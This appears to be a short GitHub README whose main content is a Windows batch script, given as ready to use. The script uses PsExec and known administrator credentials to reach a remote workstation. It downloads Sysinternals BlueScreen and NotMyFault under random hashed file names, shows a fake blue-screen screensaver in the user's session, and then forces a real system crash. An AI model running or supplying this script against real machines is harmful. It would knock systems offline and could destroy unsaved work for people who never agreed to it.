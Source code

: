 # bsod-sysinter

The following script leverages the PSExec, SysInternalsBluescreen.scr, and notmyfaultc64.exe components of Sysinternals Suite to flash a blue screen screensaver and force a BSOD against a remote Windows 10 workstation. It assumes knowledge of administrative credentials and was tested against Windows Server 2019 v1909 with the Windows Firewall in its default configuration state.

```bat
FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR=%%g)
echo %VAR%

FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR2=%%g)
echo %VAR2%

psexec.exe \\192.168.0.12 -u Administrator cmd
curl https://download.sysinternals.com/files/BlueScreen.zip --output %USERPROFILE%\%VAR%.zip
curl https://download.sysinternals.com/files/NotMyFault.zip --output %USERPROFILE%\%VAR2%.zip
tar -xf %USERPROFILE%\%VAR%.zip -C %USERPROFILE% REM extract to Administrator's user profile
tar -xf %USERPROFILE%\%VAR2%.zip -C %USERPROFILE%
exit
psexec.exe -i \\192.168.0.12 -u Administrator "%USERPROFILE%\SysInternalsBluescreen.scr" /s Rem Previous interactive Psexec session exited so that another can be spawned in the active user session
psexec.exe \\192.168.0.12 -u Administrator "%USERPROFILE%\notmyfaultc64.exe" crash 0x01
```

Reference: https://docs.microsoft.com/en-us/troubleshoot/windows/win32/screen-saver-command-line
